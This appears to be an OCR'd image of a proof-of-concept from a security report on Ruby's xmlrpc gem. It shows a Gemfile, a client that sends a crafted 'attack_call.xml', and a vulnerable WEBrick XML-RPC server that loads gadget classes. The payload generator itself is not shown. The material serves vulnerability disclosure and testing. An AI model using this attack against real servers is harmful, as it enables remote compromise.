 ```ruby
```

```
$ cat Gemfile
# frozen_string_literal: true

source "https://rubygems.org"

gem 'xmlrpc', '~> 0.3.2'
gem 'webrick', '~> 1.7'
gem 'rack', '~> 2.2', '>= 2.2.3'

$ bundle install
...

$ bundle exec ruby build_xml.rb
# create attack_call.xml and attack_response.xml
```


### PoC for server attack

```ruby
# craft_client.rb
require "xmlrpc/client"

server = XMLRPC::Client.new("localhost", "/RPC2", 8080)
craft = File.read("./attack_call.xml")
ok, param = server.send(:do_rpc, craft)


if ok then
  puts "param: #{param}"
else
  puts "Error:"
  puts param.faultCode
  puts param.faultString
end
```

```ruby
# xmlrpc_server.rb

require "webrick"
require "xmlrpc/server"

# required classes
require 'net/http'
Gem::Installer

s = XMLRPC::WEBrickServlet.new

s.add_handler("for_call") do |param|
  param.to_s
end

httpserver = WEBrick::HTTPServer.new(:Port => 8080)
httpserver.mount("/RPC2", s)
trap(:INT){httpserver.shutdown}
httpserver.start
```
